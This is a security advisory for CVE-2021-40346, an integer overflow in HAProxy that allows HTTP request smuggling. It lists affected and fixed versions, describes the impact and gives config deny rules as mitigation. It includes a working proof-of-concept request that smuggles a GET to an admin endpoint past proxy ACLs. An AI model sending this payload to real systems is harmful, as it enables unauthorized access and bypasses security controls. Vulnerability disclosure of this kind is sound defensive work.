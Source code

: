 ```yaml
---
description: CVE-2021-40346 High severity. An integer overflow in HAProxy leads to HTTP Smuggling via simple network requests
title: Integer overflow in HAProxy leads to HTTP Smuggling
date_published: "2021-07-09"
last_updated: "2021-07-09"
xray_id: XRAY-184496
vul_id: CVE-2021-40346
cvss: 7.5
severity: high
discovered_by: Ori Hollander
type: vulnerability
---
```

## Summary

An integer overflow in HAProxy leads to HTTP Smuggling via simple network requests

## Component

[HAProxy](http://www.haproxy.org/)

## Affected versions

HAProxy [2.0 - 2.0.24], fixed in 2.0.25
HAProxy [2.1 - 2.1*], no fix. unmaintained version
HAProxy [2.2 - 2.2.16], fixed in 2.2.17
HAProxy [2.3 - 2.3.13], fixed in 2.3.14
HAProxy [2.4 - 2.4.3], fixed in 2.4.4
HAProxy Enterprise [2.0r1 - 2.0r1-1.0.0-234.1215], fixed in 2.0r1-1.0.0-235.1230
HAProxy Enterprise [2.1r1 - 2.1r1-1.0.0-238.612], fixed in 2.1r1-1.0.0-238.625
HAProxy Enterprise [2.2r1 - 2.2r1-1.0.0-241.491], fixed in 2.2r1-1.0.0-241.505
HAProxy Enterprise [2.3r1 - 2.3r1-1.0.0-242.330], fixed in 2.3r1-1.0.0-242.345
HAProxy Enterprise [2.4r1 - 2.4r1], fixed in 2.4r1-1.0.0-253.271
HAproxy Kubernetes Ingress Controller [1.6 - 1.6.6], fixed in 1.6.7
HAproxy Enterprise Kubernetes Ingress Controller [1.6 - 1.6.6], fixed in 1.6.7
HAProxy ALOHA [11.5 - 11.5.12], fixed in 11.5.13
HAProxy ALOHA [12.5 - 12.5.4], fixed in 12.5.5
HAProxy ALOHA [13.0 - 13.0.6], fixed in 13.0.7

## Description

Due to an integer overflow, a parsing error is created in HAProxy that allows an attacker to specify two `Content-Length` headers with different sizes. Subsequently, this allows an attacker to perform HTTP smuggling. This attack allows an adversary to smuggle HTTP requests to the backend server, without the proxy server being aware of it. The smuggled requests have various impacts, depending on HAProxy’s configuration and the backend web server configuration: Bypassing security controls, including any ACLs defined in HAProxy, Gaining unauthorized access to sensitive data, Executing unauthorized commands or modifying data, Hijacking user sessions, Exploiting a reflected XSS vulnerability without user interaction.

## PoC

Any attacker that can send requests through the proxy, can exploit this vulnerability, by sending requests such as:

```
POST /index.html HTTP/1.1
Host: abc.com
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 60

GET /admin/add_user.py HTTP/1.1
Host: abc.com
abc: xyz


```

The GET request will be smuggled and will evade any ACLs defined in the HAProxy configuration file.

## Vulnerability Mitigations

If you are not able to update right away, you can apply the following rules to your HAProxy configuration file to mitigate the vulnerabilities. These should be added to your frontend.

```
frontend myfrontend
http-request deny if { req.hdr_cnt(content-length) gt 1 }
http-response deny if { res.hdr_cnt(content-length) gt 1 }
```


## References

[(JFrog) Critical vulnerability in HAProxy ](https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/)